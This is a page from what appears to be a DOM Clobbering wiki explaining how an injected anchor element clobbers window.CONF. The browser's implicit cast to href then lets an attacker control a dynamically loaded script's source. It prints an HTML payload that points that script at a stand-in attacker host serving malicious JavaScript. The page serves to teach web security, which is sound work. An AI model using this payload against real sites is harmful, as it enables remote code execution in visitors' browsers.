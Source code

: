 ```yaml
---
title: Examples
parent: Techniques
nav_order: 6
---
```


{% include toggle_color.html %}

# DOM Clobbering Wiki

Stable
{: .label .label-green }


## DOM Clobbering Examples

This section presents a few simple, hands-on examples of DOM Clobbering, capturing the corner-case behaviours of browsers for exploitation, and will be updated gradually. 


### Implicit Cast of HTMLAnchorElement to Href String

Consider the following code listing:

```js
1. var s = document.createElement('script');
2. s.src = window.CONF || 'custom-script.js';
3. document.body.appendChild(s);
```

Attackers can obtain arbitrary code execution by clobbering the `window.CONF` property in line 2, as it is used as the `src` attribute of a dynamically loaded script

For successful exploitation, the value of `window.CONF` must be a `string`, and with DOM Clobbering we replace it with an `HTMLElement` or `WindowProxy`, which could prevent us from exploiting this vulnerability. However, when assigning a value to `HTMLScriptElement.src`, if the value is an instance of `HTMLAnchorElement`, the browser implicitly casts the value to its `href` property value. 

**Exploitation.** To exploit the above code lisiting, attackers can inject the following payload:

```html
<a id=CONF href="https://attack.com/malicious.js">
```

Note that while `window.CONF` refers to an `HTMLAnchorElement`, the assignment to `HTMLScriptElement.src` on line 2 casts it to its `href` property value. 


